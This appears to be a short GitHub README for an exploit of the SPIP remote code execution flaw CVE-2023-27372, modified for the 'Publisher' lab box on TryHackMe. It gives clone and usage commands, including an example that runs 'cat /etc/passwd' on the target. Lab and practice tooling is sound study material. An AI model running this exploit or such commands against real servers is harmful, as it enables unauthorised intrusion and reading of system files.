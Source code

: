 # About Publisher--THM >>
Modify exploit to Publisher BOX on TryHackMe

Origianl exploit 
https://github.com/nuts7/CVE-2023-27372

# Install and usage >>

```
git clone https://github.com/TheSysRat/Publisher--THM
cd Publisher--THM
python3 expolit.py -u <url>/spip -c <command> -v

Example:
python3 exploit.py -u http://publisher.thm/spip -c 'cat /etc/passwd' -v
```
